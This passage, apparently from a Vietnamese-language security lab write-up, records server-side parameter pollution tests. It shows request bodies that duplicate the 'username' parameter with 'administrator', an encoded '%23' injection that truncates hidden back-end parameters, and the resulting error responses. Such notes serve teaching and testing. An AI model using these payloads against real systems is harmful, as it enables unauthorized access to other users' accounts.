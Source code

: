 ![alt text](image-20.png)

output: {"type":"ClientError","code":400,"error":"Invalid username."}

-> (a): Kí tự # có khả năng cắt các tham số ẩn khỏi chuỗi truy vấn của front-end server -> backend server trả về lỗi các trường không đủ ; inject thành công với '%23'

(1.3)

input: csrf=cNCbZ6H4eIN9wKQkjIssoAwN13MVCfPs&username=administrator&username=as

![alt text](image-17.png)

output: {"type":"ClientError","code":400,"error":"Invalid username."}

input: csrf=cNCbZ6H4eIN9wKQkjIssoAwN13MVCfPs&username=as&username=administrator
